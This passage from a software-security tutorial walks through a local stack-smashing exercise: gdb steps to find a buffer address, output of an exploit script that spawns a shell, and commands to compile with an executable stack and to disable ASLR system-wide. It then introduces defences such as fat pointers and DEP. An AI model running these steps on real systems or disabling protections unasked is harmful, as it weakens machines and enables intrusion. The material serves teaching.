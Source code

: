 In practice, you can only analyze the address of buf via `gdb`. Note that the address of the shell code may change when starting the `vuln` program via the python code. 
```shell
gdb ./vuln
-> break *validation+31
-> run
-> x/64x $rsp
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```shell
python exstack.py 
[+] Starting local process './vuln': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```

If not, it possibly means you are using the stack protector or the ASLR. Turn off the stack protector when compiling the buggy program to eable the data on the stack to be executable.
```shell
clang -z execstack vuln.c -o vuln
```

You also need to turn off the ASLR.
```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Section 2. Protection Techniques
To prevent smashing attackes, we may either try to avoid buffer overflow bugs or to increase the difficulty of attacks. To avoid buffer overflow bugs, a widely employd technique during programming is fat pointer. Note that it is generally difficult to detect buffer overflow vulnerabilities during compiling time because whether a pointer points to an out-of-bound address is undecidable. The fat pointer contains additional size information which enables the problem to perform runtime boundary check. We leave the detailed discussion of such programming techniques to later chapters. 

The attack and protection techniques coevolve.

Attack: Stack Smashing 
=> Defense: Data Execution Prevention
===> Attack: Return-oriented Programming
=====> Defense ：ASLR, Stack Canary
=======> Attack ：Side Channel 
=========> Defense ：Shadown Stack 
===========> ...

### 1.2.1 DEP 
DEP is a technique that disable the stack data from being executed. It achieves the purpose by setting the flag of the stack to RW instead of RWE.
```shell
clang vuln.c -o vuln 
readelf -l ./vuln
Elf file type is DYN (Shared object file)
Entry point 0x1070
There are 11 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000000040 0x0000000000000040
                 0x0000000000000268 0x0000000000000268  R      0x8
  INTERP         0x00000000000002a8 0x00000000000002a8 0x00000000000002a8
                 0x000000000000001c 0x000000000000001c  R      0x1
```